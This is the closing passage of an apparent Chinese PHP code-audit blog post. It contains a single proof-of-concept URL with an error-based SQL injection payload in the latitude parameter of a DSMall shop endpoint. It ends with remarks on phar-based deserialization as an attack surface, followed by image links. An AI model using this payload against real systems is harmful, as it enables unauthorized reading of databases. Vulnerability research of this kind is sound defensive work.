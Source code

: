 Poc:<br>[http://test.com/dsmall506/public/index.php/home/Shopnearby/get_Own_Store_List?latitude=updatexml(1,concat(0x7e,user()),1)&amp;longitude=1](http://test.com/dsmall506/public/index.php/home/Shopnearby/get_Own_Store_List?latitude=updatexml(1,concat(0x7e,user()),1)&amp;longitude=1)

[![](https://p3.ssl.qhimg.com/t0119fce56eb42ba9a8.jpg)](https://p3.ssl.qhimg.com/t0119fce56eb42ba9a8.jpg)



## 0x05 结语

​ 2018 BlackHat Sam Thomas分享了利用phar文件触发反序列化的研究文章，大大扩展了反序列化漏洞的攻击面，在审计cms的时候除了关注unserialize作为source之外，也应该重点关注这些能够利用phar文件反序列利用的函数，而对于php反序列化漏洞挖掘和利用（包括fuzz sink function 和pop chain find）期待下篇文章吧。

[![](https://p2.ssl.qhimg.com/t010de40f816f7c0ae8.png)](https://p2.ssl.qhimg.com/t010de40f816f7c0ae8.png)

[![](https://p1.ssl.qhimg.com/t0174b09262c57ebece.png)](https://p1.ssl.qhimg.com/t0174b09262c57ebece.png)

[![](https://p0.ssl.qhimg.com/t011149435f3216bf12.png)](https://p0.ssl.qhimg.com/t011149435f3216bf12.png)
